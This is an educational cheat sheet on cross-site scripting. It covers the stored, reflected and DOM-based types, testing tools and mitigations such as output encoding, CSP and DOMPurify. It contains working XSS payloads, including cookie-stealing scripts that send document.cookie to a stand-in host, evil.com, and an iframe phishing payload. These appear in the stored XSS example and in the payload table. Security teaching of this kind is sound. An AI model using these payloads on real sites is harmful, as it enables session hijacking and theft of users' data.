 # Cross-Site Scripting (XSS):

That allows attackers to **inject malicious Script** into web pages.

#  Types of XSS

1. ## Stored XSS (Persistent)

**Definition**: The malicious script is stored on the target server (e.g., in a database) and served to users.

**Example:** Attacker posts \<script\>document.location='https://evil.com/cookie?'+document.cookie\</script\> in a comment section.

**Impact:** Every visitor to that page executes the attacker's code.

**Mitigation:** Output encode stored data, sanitize input, use CSP.

## 2\. Reflected XSS (Non-Persistent):

The malicious script is reflected off a web server, typically via a URL or form input, and immediately sent back to the user's browser. Not stored.

Example: [https://site.com/search?q=\<script\>alert(1)\</script](https://site.com/search?q=%3cscript%3ealert\(1\)%3c/script)\>

Server reflects q into HTML without sanitization.

**Impact**: Executed when victim clicks a malicious link.

**Mitigation:**  Proper HTML encoding, validate/escape query parameters.

## 3\. DOM-Based XSS:

The vulnerability exists in the client-side code rather than the server-side code. The malicious payload is never sent to the server; instead, it is processed by the browser and executed as part of the Document Object Model (DOM).

Example: document.getElementById("output").innerHTML \= location.hash.substring(1);

URL: \#\<img src=x onerror=alert(1)\>

**Impact** | Payload executed client-side by vulnerable DOM handling.

**Mitigation** | Avoid innerHTML, use textContent, sanitize with DOMPurify.

# Impact

| Impact Type | Description |
| :---- | :---- |
| Session Hijacking | Steal cookies or JWT tokens |
| Data Theft | Exfiltrate sensitive data from forms |
| Phishing / UI Redress | Fake login forms or overlays |
| Brand Reputation Damage | Defaced site, trust lost |
| Stored Payloads in CDN | Persistent attacks with broad reach |

# Payload Examples

| Context | Payload |
| :---- | :---- |
| Basic Alert | \<script\>alert(1)\</script\> |
| Cookie Stealing | \<script\>fetch('https://evil.com?c='+document.cookie)\</script\> |
| Image-Based XSS | \<img src=x onerror=alert('XSS')\> |
| Event Handler | \<button onclick=alert(1)\>Click\</button\> |
| Iframe Phishing | \<iframe src="https://evil.com/login.html"\>\</iframe\> |
| DOM-Based | \#\<script\>alert(1)\</script\> for reflected hash in JS |

# Testing Techniques

| Method | Tool | What To Look For |
| :---- | :---- | :---- |
| Manual Testing | Burp Suite / Browser | Try injecting payloads in inputs, URLs, headers |
| Contextual Testing | Burp Suite → Repeater | Observe how input is reflected: HTML, JS, URL, etc. |
| DOM Inspection | Browser DevTools | Check usage of innerHTML, eval, etc. |
| JavaScript Fuzzing | XSS payload wordlists | Common payloads across input fields |
| Mobile Testing | Charles Proxy | Modify API/webview responses to test for XSS in hybrid apps |

# Mitigation

**1\. Input Validation (But not enough alone)**

* Reject disallowed characters (e.g., \<, \>, ")

* Allowlist acceptable inputs (e.g., name, email formats)

**🔒 2\. Output Encoding / Escaping ✅ CRITICAL**

| Context | Encode |
| :---- | :---- |
| HTML body | \&lt;, \&gt;, \&amp; |
| JavaScript | Escape quotes, backslashes |
| HTML attributes | Escape ", ', \> |
| URL parameters | Use encodeURIComponent() |

Use libraries:

    OWASP Java Encoder

    Python: html.escape()

    JavaScript: DOMPurify (DOM-based XSS prevention)

2. **Use Security Headers**

| Header | Purpose |
| :---- | :---- |
| Content-Security-Policy | Prevent script execution from untrusted sources |
| X-XSS-Protection: 1; mode=block | Browser-level (legacy) |
| X-Content-Type-Options: nosniff | Prevent MIME-type confusion |

3. **Avoid Dangerous JS Functions**  
* innerHTML  
* document.write  
* eval, Function()  
  Use:  
* textContent, createElement, appendChild

# Tools for XSS Testing

| Tool | Use |
| :---- | :---- |
| Burp Suite (Manual \+ Scanner) | Best for reflected/stored testing |
| OWASP ZAP | Active scan with XSS detection |
| XSStrike | Advanced XSS fuzzing (context-aware) |
| XSS Hunter (now discontinued) | Out-of-band XSS testing |
| DOM Invader (PortSwigger) | DOM-based XSS detection |

# Real-World XSS Attacks

| Company | Description |
| :---- | :---- |
| Google (multiple) | DOM-based XSS in Google Docs |
| Yahoo (2014) | XSS in mail, rewarded with $10k |
| British Airways (2018) | Script injection → PII/card data theft |
| WordPress plugins | Common vector for stored XSS via comments, metadata |

# Points

“XSS is not about code injection into the server — it’s about **tricking the browser** into executing malicious scripts **in a trusted origin**.”

“Context is key — **output encoding must match the rendering context (HTML, JS, attribute)**.”

“Modern defenses like **CSP and DOMPurify** reduce DOM XSS exposure.”

“Automated scanners help, but **manual testing is essential** for contextual and DOM-based vulnerabilities.”